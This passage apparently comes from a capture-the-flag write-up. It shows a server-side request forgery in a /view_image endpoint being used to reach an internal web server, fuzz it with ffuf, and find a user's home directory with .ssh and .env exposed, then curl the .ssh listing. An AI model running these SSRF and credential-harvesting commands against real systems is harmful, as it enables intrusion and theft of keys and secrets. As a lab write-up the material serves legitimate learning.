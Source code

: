 This reveals a hidden website on port 80 of the local machine, filled with the creepy "London Bridge is falling down" nursery rhyme. This confirms there's another web server running internally.

Let's see what else is being served on this internal port 80. Could it be... a file system? Let's fuzz for common files and directories.

```bash
❯ ffuf -u http://$IP:8080/view_image -X POST \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "www=http://127.1:80/FUZZ" -w common.txt -fw 96

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.22.48:8080/view_image
 :: Wordlist         : FUZZ: /home/cilgin/dev/wordlist/common.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : www=http://127.1:80/FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 96
________________________________________________

.bash_history           [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 75ms]
.bashrc                 [Status: 200, Size: 3771, Words: 522, Lines: 118, Duration: 144ms]
.cache                  [Status: 200, Size: 474, Words: 19, Lines: 18, Duration: 176ms]
.env                    [Status: 200, Size: 533, Words: 22, Lines: 21, Duration: 171ms]
.profile                [Status: 200, Size: 807, Words: 128, Lines: 28, Duration: 112ms]
.ssh                    [Status: 200, Size: 399, Words: 18, Lines: 17, Duration: 106ms]
index.html              [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 81ms]
...
```

Whoa! This isn't a normal web root. It looks like the internal web server is serving a user's entire home directory! This is a massive misconfiguration. With a `.ssh` directory exposed, the path forward is clear.

### Step 4: Gaining a Foothold

Let's list the contents of the `.ssh` directory.

```bash
❯ curl -X POST http://$IP:8080/view_image \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "www=http://127.1/.ssh"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<title>Directory listing for /.ssh/</title>
</head>
<body>
<h1>Directory listing for /.ssh/</h1>
<hr>
<ul>
```